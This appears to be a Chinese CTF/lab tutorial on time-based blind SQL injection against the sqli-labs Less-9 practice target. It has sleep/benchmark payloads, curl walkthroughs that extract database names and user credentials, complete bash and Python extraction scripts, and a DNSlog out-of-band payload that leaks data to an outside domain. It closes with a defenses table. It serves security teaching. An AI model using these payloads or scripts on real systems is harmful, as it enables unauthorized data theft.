

## 05 时间盲注 -- 考点精讲

> 前置知识：[[04-布尔盲注|04-布尔盲注]] -- 猜解逻辑完全复用，只是"信号"从页面差异换成延迟
>
> 关联教程：[[../../../archstrike-web教学/04-SQL注入攻击|SQL注入实战]] · [[03-报错注入|03-报错注入]]

### 适用条件

连**布尔盲注的页面差异都没有**时（真假状态返回一模一样的页面），用数据库执行耗时函数制造可观测差异。这是注入手段链的最末端，也是 CTF 高频考点。

本章靶场对照：sqli-labs **Less-9**（GET 单引号闭合，任何输入都返回同一句话 "You are in..."——真假状态完全相同，只有延迟可辨）。判断方法：

```bash
curl -s -o /dev/null -w "%{time_total}\n" "http://127.0.0.1/sqli-labs/Less-9/?id=1' and if(1=1, sleep(5), 0) --+"
# 约 5.0x 秒

curl -s -o /dev/null -w "%{time_total}\n" "http://127.0.0.1/sqli-labs/Less-9/?id=1' and if(1=2, sleep(5), 0) --+"
# 约 0.0x 秒
```

条件真时明显慢约 5 秒、假时正常 → 时间盲注可行，闭合方式为单引号。

### curl 测响应时间的两种方法

#### 方法一：-w "%{time_total}"（推荐）

```bash
# time_total = 从发起请求到收到完整响应的总秒数，精确到毫秒
curl -s -o /dev/null -w "%{time_total}\n" "http://目标URL"

# 常用组合变量一起看
curl -s -o /dev/null \
     -w "total=%{time_total}s connect=%{time_connect}s start=%{time_starttransfer}s\n" \
     "http://127.0.0.1/sqli-labs/Less-9/?id=1"
```

`-o /dev/null` 把响应体丢弃只留计时数据；`%{time_starttransfer}`（首字节时间）在响应体巨大时比 total 更能反映服务端处理耗时，但注入判时用 total 即可。

#### 方法二：time 命令配合 -o /dev/null -s

```bash
# bash 内建 time 计整个进程耗时
time curl -s -o /dev/null "http://127.0.0.1/sqli-labs/Less-9/?id=1' and if(1=1, sleep(5), 0) --+"

# 输出形如:
# real    0m5.032s
# user    0m0.015s
# sys     0m0.004s
```

看 `real` 一行。两种方法的取舍：脚本里一律用 `-w "%{time_total}"`（输出干净可直接比较）；临时手工验证用 time 更顺手。

### sleep() 与 benchmark() 对比

| 维度 | `sleep(n)` | `benchmark(count, expr)` |
|------|-----------|--------------------------|
| 语法 | `sleep(5)` 延迟约 5 秒 | `benchmark(50000000, md5('a'))` 执行五千万次 md5 |
| 延迟精度 | 直接、可控 | 不精确，次数需按机器性能调 |
| 适用场景 | MySQL 5.0.12+ 首选 | **过滤了 sleep 关键字时替代** |
| 缺点 | 关键字易被 WAF 匹配 | 每台机器速度不同要现场标定 |

```bash
# benchmark 替代写法：先标定出本机约 5 秒对应的次数
curl -s -o /dev/null -w "%{time_total}\n" \
     "http://127.0.0.1/sqli-labs/Less-9/?id=1' and benchmark(50000000, md5('a')) --+"
```

### if() 条件结构

时间盲注的标准骨架：

```sql
if(条件, sleep(5), 0)
```

条件真 → 延迟 5 秒；假 → 立即返回。把布尔盲注的猜解表达式填进"条件"位即可全套迁移。

时间盲注在整个注入手段链中的位置与信号传递方式：



`and` 与 `or` 的短路陷阱：

```sql
-- 正确：and 连接，主查询命中一行才执行后面的 sleep 判断
?id=1' and if(ascii(substr(database(),1,1))>100, sleep(5), 0) --+
```

**行数放大坑**：`SELECT * FROM users WHERE id=1 OR sleep(5)` 若 WHERE 匹配 N 行就延迟 N×5 秒。所以 payload 里尽量让主查询只命中一行（如 `id=1`）：

```sql
-- 子查询形式保证 sleep 只执行一次，延迟稳定等于预期值
?id=1' and (select if(ascii(substr(database(),1,1))=115, sleep(5), 0)) --+
```

### 手工 payload 序列

```sql
-- 1. 确认延迟生效 + 测库名长度
?id=1' and if(length(database())=8, sleep(5), 0) --+

-- 2. 二分猜第 n 个字符
?id=1' and if(ascii(substr(database(),1,1))>100, sleep(5), 0) --+
?id=1' and if(ascii(substr(database(),1,1))=115, sleep(5), 0) --+

-- 3. 爆表名（information_schema 子查询同样适用）
?id=1' and if(ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1,1))=101, sleep(5), 0) --+

-- 4. 取数据
?id=1' and if(ascii(substr((select flag from sqli.flag limit 0,1),1,1))=99, sleep(5), 0) --+
```

### 五步方法论完整实操（Less-9）

#### Step 1 确认注入存在

```bash
BASE="http://127.0.0.1/sqli-labs/Less-9/"

# 先确认页面无差异（布尔锚点失效）
curl -s "${BASE}?id=1' and 1=1 --+"
curl -s "${BASE}?id=1' and 1=2 --+"
# 两条内容一模一样 -> 页面信号不可用

# 换时间信号确认注入
curl -s -o /dev/null -w "%{time_total}\n" "${BASE}?id=1' and if(1=1, sleep(5), 0) --+"   # ~5s
curl -s -o /dev/null -w "%{time_total}\n" "${BASE}?id=1' and if(1=2, sleep(5), 0) --+"   # ~0s
# 5s 与 0s 对比鲜明 -> 注入成立
```

同时做一次基准校准，排除网络抖动：

```bash
# 正常请求基线，多测几次取稳定值
for i in 1 2 3; do
  curl -s -o /dev/null -w "%{time_total}\n" "${BASE}?id=1"
done
```

#### Step 2 探测列数 order by

时间盲注主路线不依赖列数，此步保证流程完整（若日后切 union/报错路线则必备）：

```bash
curl -s -o /dev/null -w "%{time_total}\n" "${BASE}?id=1' order by 3 --+"   # 正常耗时
curl -s -o /dev/null -w "%{time_total}\n" "${BASE}?id=1' order by 4 --+"   # 报错也正常耗时
```

注意 Less-9 报错也不回显，order by 结果只能靠配 union 后再注入入延迟来间接判断，实际操作中直接跳过进入猜解。

#### Step 3 获取当前数据库名（长度 + 逐位）

```bash
# 测长度：length=8 时延迟 -> 库名 8 字符
curl -s -o /dev/null -w "%{time_total}\n" "${BASE}?id=1' and if(length(database())=8, sleep(5), 0) --+"

# 二分第 1 个字符：延迟出现即为真
curl -s -o /dev/null -w "%{time_total}\n" "${BASE}?id=1' and if(ascii(substr(database(),1,1))>96, sleep(5), 0) --+"    # ~5s 真
curl -s -o /dev/null -w "%{time_total}\n" "${BASE}?id=1' and if(ascii(substr(database(),1,1))>112, sleep(5), 0) --+"   # ~5s 真
curl -s -o /dev/null -w "%{time_total}\n" "${BASE}?id=1' and if(ascii(substr(database(),1,1))>120, sleep(5), 0) --+"   # ~0s 假
curl -s -o /dev/null -w "%{time_total}\n" "${BASE}?id=1' and if(ascii(substr(database(),1,1))>116, sleep(5), 0) --+"   # ~0s 假
curl -s -o /dev/null -w "%{time_total}\n" "${BASE}?id=1' and if(ascii(substr(database(),1,1))>114, sleep(5), 0) --+"   # ~5s 真
curl -s -o /dev/null -w "%{time_total}\n" "${BASE}?id=1' and if(ascii(substr(database(),1,1))>115, sleep(5), 0) --+"   # ~0s 假
# 锁定 ascii=115 -> 's'
```

后续各位同理改 substr 第二参数，最终拼出 security。

#### Step 4 根据库名获取表名

```bash
# 猜表名串总长
curl -s -o /dev/null -w "%{time_total}\n" "${BASE}?id=1' and if(length((select group_concat(table_name) from information_schema.tables where table_schema='security'))=30, sleep(5), 0) --+"

# 逐位猜第一个表名首字符
curl -s -o /dev/null -w "%{time_total}\n" "${BASE}?id=1' and if(ascii(substr((select table_name from information_schema.tables where table_schema='security' limit 0,1),1,1))=101, sleep(5), 0) --+"
# =101 -> 'e'，emails 表首位确认
```

#### Step 5 根据表名获取列名再提取数据

```bash
# 猜 users 表列名串
curl -s -o /dev/null -w "%{time_total}\n" "${BASE}?id=1' and if(ascii(substr((select group_concat(column_name) from information_schema.columns where table_name='users'),1,1))=105, sleep(5), 0) --+"

# 逐位提取数据（示例：users 表第一条 username 首字母）
curl -s -o /dev/null -w "%{time_total}\n" "${BASE}?id=1' and if(ascii(substr((select group_concat(username,0x3a,password) from security.users limit 0,1),1,1))=68, sleep(5), 0) --+"
# =68 -> 'D'（Dumb 的 D）
```

### 本章特有技术：完整猜解 bash 脚本

逐位 + 二分 + 超时阈值判断，纯 curl 实现，完整可运行：

```bash
#!/bin/bash
# time_blind.sh：Less-9 时间盲注自动化（bash + curl）
BASE="http://127.0.0.1/sqli-labs/Less-9/"
DELAY=3          # 预期延迟秒数，别太大否则跑不完
THRESHOLD=1.5    # 响应超过 BASELINE+THRESHOLD 判真
CLOSE="1'"       # 闭合前缀，换靶场时按需改

# 单次请求耗时测量
measure() {
  curl -s -o /dev/null -w "%{time_total}" \
       "${BASE}?id=${CLOSE} and ${1} --+"
}

# 双采样判定：两次平均超过阈值算真，抗网络抖动
is_true() {
  local t1 t2
  t1=$(measure "$1")
  t2=$(measure "$1")
  awk -v a="$t1" -v b="$t2" -v base="$BASELINE" -v th="$THRESHOLD" \
      'BEGIN{exit !((a+b)/2 > base+th)}'
}

# 基准校准：先测正常请求耗时
calibrate() {
  local normal delayed
  normal=$(curl -s -o /dev/null -w "%{time_total}" "${BASE}?id=1")
  delayed=$(measure "if(1=1, sleep(${DELAY}), 0)")
  BASELINE=$normal
  echo "[*] 基准: 正常 ${normal}s / 延迟 ${delayed}s"
}

# 测表达式结果总长度（length 先行，减少请求量）
get_length() {
  for ((len=1; len<=300; len++)); do
    if is_true "if(length((${1}))=${len}, sleep(${DELAY}), 0)"; then
      echo $len; return
    fi
  done
  echo 0
}

# 二分猜解第 pos 个字符
guess_char() {
  local expr=$1 pos=$2 left=32 right=127 mid
  while [ $left -lt $right ]; do
    mid=$(( (left + right) / 2 ))
    if is_true "if(ascii(substr((${expr}),${pos},1))>${mid}, sleep(${DELAY}), 0)"; then
      left=$((mid + 1))
    else
      right=$mid
    fi
  done
  echo $left
}

dump_expr() {
  local expr=$1 result="" len pos code
  len=$(get_length "$expr")
  echo "[*] 长度: $len"
  for ((pos=1; pos<=len; pos++)); do
    code=$(guess_char "$expr" $pos)
    result="${result}$(printf "\\$(printf '%03o' "$code")")"
    echo "[+] pos=${pos}: ${result}"
  done
  echo "[==] 结果: ${result}"
}

calibrate
echo "== 数据库 ==" && dump_expr "database()"
echo "== 表名 ==" && dump_expr "(select group_concat(table_name) from information_schema.tables where table_schema='security')"
echo "== 数据 ==" && dump_expr "(select group_concat(username,0x3a,password) from security.users)"
```

运行效果示意：

```text
$ bash time_blind.sh
[*] 基准: 正常 0.004s / 延迟 3.008s
== 数据库 ==
[*] 长度: 8
[+] pos=1: s
[+] pos=2: se
...
[==] 结果: security
```

要点回顾：**基准校准**（正常请求也要耗时，阈值必须叠加基线）、**双采样**（单次抖动会误判）、**length 先行**（确定循环边界）、sleep 取 3~5 秒平衡速度与可靠性。

### 延迟基准测量要点

网络抖动会让 0.3 秒的波动看起来像"真"，必须做基准处理：

| 要点 | 做法 |
|------|------|
| 先测正常响应耗时 | 记录无注入请求的平均耗时作为 BASELINE |
| 阈值留足余量 | 判定线取 `BASELINE + DELAY/2` 以上 |
| 多次采样 | 单次测量不可信，至少 2 次取均值 |
| 复用连接 | 同一 curl 会话或内网靶机减少握手抖动 |
| sleep 别设太大 | 5~8 秒够用；一次二分 7 请求 × 每请求最多一个 sleep |
| curl 设超时兜底 | `--max-time $((DELAY+15))` 防连接挂起卡死脚本 |

一次完整判定的耗时构成（以 DELAY=3、二分 7 次为例）：

```text
猜一个字符:  7 次请求 × (真≈3s / 假≈0s) ≈ 平均 10~15 秒
库名 8 字符: ≈ 2 分钟
整库爆表爆列取数: 数十分钟起
结论: 时间盲注务必先 length 定边界，能用工具就用工具
```

### Python 时间型对照脚本

与 bash 脚本同构的 requests 实现，内置基准校准，适合需要加并发重试时扩展：

```python
import time
import requests

URL = "http://127.0.0.1/sqli-labs/Less-9/?id="
DELAY = 3            # 预期延迟秒数
THRESHOLD = 1.5      # 超过基线多少秒算"真"
TIMEOUT = DELAY + 15

def measure(payload):
    """返回单次请求耗时秒数。"""
    start = time.time()
    try:
        requests.get(URL + payload, timeout=TIMEOUT)
    except requests.RequestException:
        pass
    return time.time() - start

def is_true(payload):
    """双采样取均值，超过阈值判真——抗网络抖动。"""
    times = [measure(payload) for _ in range(2)]
    return sum(times) / len(times) > BASELINE + THRESHOLD

def calibrate():
    global BASELINE
    BASELINE = measure("1")
    delayed = measure(f"1' and if(1=1,sleep({DELAY}),0)--+")
    print(f"[*] 基准 {BASELINE:.2f}s / 延迟 {delayed:.2f}s")
    assert delayed > DELAY * 0.7, "未检测到延迟，检查闭合方式"

def binary_search(expr):
    result, pos = "", 1
    while True:
        if not is_true(f"1' and if(length({expr})>={pos},sleep({DELAY}),0)--+"):
            break
        left, right = 32, 127
        while left < right:
            mid = (left + right) // 2
            if is_true(f"1' and if(ascii(substr({expr},{pos},1))>{mid},sleep({DELAY}),0)--+"):
                left = mid + 1
            else:
                right = mid
        if left == 32:
            break
        result += chr(left)
        pos += 1
        print(f"[+] {result}")
    return result

calibrate()
print("[==] 数据库:", binary_search("database()"))
```

### DNSlog 带外注入提一嘴

当 sleep 也被禁用时，还有一条带外（OOB）出路：让数据库主动向你的 DNSlog 域名发解析请求，数据藏在子域名里。Windows 下可用 UNC 路径触发 SMB 解析：

```sql
-- Windows 环境（UNC 路径 \\xxx.host\a）
select load_file(concat('\\\\', database(), '.your.dnslog.cn\\a'));

-- 完整利用
?id=1' and load_file(concat(0x5c5c5c5c, hex(database()), '.xxxx.dnslog.cn\\abc')) --+
```

流程：去 dnslog.cn 申请临时子域名 → 构造上述 payload 触发解析 → 回平台刷新看记录，子域名前缀就是查询结果。注意 **MySQL 默认 secure_file_priv 与 Linux 环境（无法反斜杠路径）限制**，实际多见于 Windows+PHP 栈；Linux 下可尝试 curl/http 带外或退回堆叠查询。

### CTF 例题思路表

| 题目特征 | 思路 |
|---------|------|
| 任意输入页面完全一样（Less-9 形态） | 时间盲注标准流程：探活 → 校准 → 逐位二分 |
| sleep 关键字被 WAF 拦截 | benchmark 大次数运算替代，现场标定次数 |
| 响应忽快忽慢无法判定 | 加大 DELAY、双采样取均值、先测基线 |
| 页面有差异但有随机噪声 | 优先布尔盲注 [[04-布尔盲注\|04-布尔盲注]]，噪声过大退回时间 |
| 目标为 Windows 栈且 load_file 可用 | DNSlog 带外一次请求拿全量数据，绕开逐位猜解 |
| 请求过快被限速断连 | 降低并发、加间隔，DELAY 适当调小换吞吐 |
| flag 很长逐位太慢 | 先 length 定长，多线程按位置分段并行猜 |

### 坑位速查

| 现象 | 原因 | 解决 |
|------|------|------|
| 所有请求都慢约 5 秒 | or 连接导致每行触发 sleep 或条件恒真 | 改 and + id=1 主查询单行命中 |
| 延迟不稳定 3~7 秒乱跳 | 服务器负载或网络抖动 | 双三次采样均值，加大 DELAY |
| time_total 全是 0.0x | payload 引号没配平，语句根本没进数据库 | 检查闭合符号，先用 if(1=1,sleep(5),0) 探活 |
| benchmark 无延迟 | 次数太少或机器太快 | 翻倍次数重试直到标定出秒级延迟 |
| 脚本跑一半卡死 | curl 无超时，连接挂起 | 加 `--max-time $((DELAY+15))` 兜底 |
| 真假判定刚好相反 | 阈值方向写反或基线未减 | is_true 里显式打印耗时调试一轮 |
| sleep 被 WAF 计数封 IP | 高频延迟特征太明显 | 换 benchmark/DNSlog，或降频 |

### 自动化：sqlinject.py 工具

手工五步熟练后，可用自制工具一键完成（工具源码与用法见 `~/hackingtools/web/injection/sqlinject`（GitHub: [missercatos/tools](https://github.com/missercatos/tools)，本地位于仓库外 `/home/a/hackingtools`），位于 ~/hackingtools/web/injection/sqlinject，支持 -h/--help 查看完整指南）：

```bash
# Less-9 场景：无任何页面差异，指定时间盲注模式
./sqlinject.py -u "http://127.0.0.1/sqli-labs/Less-9/?id=1'" --blind time

# 自定义延迟秒数与闭合方式
./sqlinject.py -u "http://127.0.0.1/sqli-labs/Less-9/?id=1'" --blind time --delay 3 --prefix "1'"
```

`--blind time` 模式自动完成：延迟探活与基线校准 → 爆库 → 爆表 → 爆列 → 取数，内置双采样与超时重试。时间盲注最耗时，工具化收益最大；手工脚本保留作故障排查与学习理解之用。

### 防御手段

| 防御方式 | 说明 |
|---------|------|
| 预编译参数化查询 | 根治方案，同前几章 |
| 数据库账号最小权限 | 收回 FILE 权限直接废掉 load_file 带外 |
| 禁用或监控慢查询 | sleep/benchmark 大量出现即告警 |
| 接入层超时与限速 | 反向代理设置较短读超时，限同 IP 请求速率 |
| 统一响应耗时 | 敏感接口对失败请求补齐固定延迟，削弱时间信号 |

---
**返回** [[SQL总目录|SQL 总目录]]
